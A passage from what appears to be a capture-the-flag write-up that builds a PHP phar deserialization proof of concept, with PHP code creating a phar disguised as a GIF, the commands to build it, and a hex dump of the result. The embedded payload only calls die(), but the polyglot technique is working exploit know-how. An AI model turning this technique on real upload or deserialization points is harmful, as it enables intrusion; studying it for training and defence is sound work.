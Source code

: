 In the POC post, the author talks about having a plugin installed that has an `Evil` class, their deserialization payload uses the function in `Evil` to get RCE. This approach isn’t super realistic, and is assuming that there will be another set of gadgets I can find. I can try that payload to see if it might work. I’ll create `evil.php` from the post:

```

<?php

class Evil{
  public function __wakeup() : void {
    die("Arbitrary Deserialization");
  }
}

//create new Phar
$phar = new Phar('evil.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("GIF89a\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new Evil();
$phar->setMetadata($object);
$phar->stopBuffering();

```

And run it:

```

oxdf@hacky$ php --define phar.readonly=0 evil.php                                    
oxdf@hacky$ file evil.phar                                                           
evil.phar: GIF image data, version 89a, 15370 x 28735    

```

The resulting file is a GIF image by MIME type, but it’s also got the serialized PHP payload:

```

oxdf@hacky$ xxd evil.phar 
00000000: 4749 4638 3961 0a3c 3f70 6870 205f 5f48  GIF89a.<?php __H
00000010: 414c 545f 434f 4d50 494c 4552 2829 3b20  ALT_COMPILER(); 
00000020: 3f3e 0d0a 4500 0000 0100 0000 1100 0000  ?>..E...........
00000030: 0100 0000 0000 0f00 0000 4f3a 343a 2245  ..........O:4:"E
00000040: 7669 6c22 3a30 3a7b 7d08 0000 0074 6573  vil":0:{}....tes
00000050: 742e 7478 7404 0000 0000 0000 0004 0000  t.txt...........
00000060: 00c7 a78b 3bb4 0100 0000 0000 0074 6578  ....;........tex
00000070: 7407 3922 d43a e276 a40f 032d dc71 9a28  t.9".:.v...-.q.(
00000080: e590 89d3 1654 ab2a dadf 331d 362a 9dd4  .....T.*..3.6*..
00000090: 5b03 0000 0047 424d 42                   [....GBMB

```
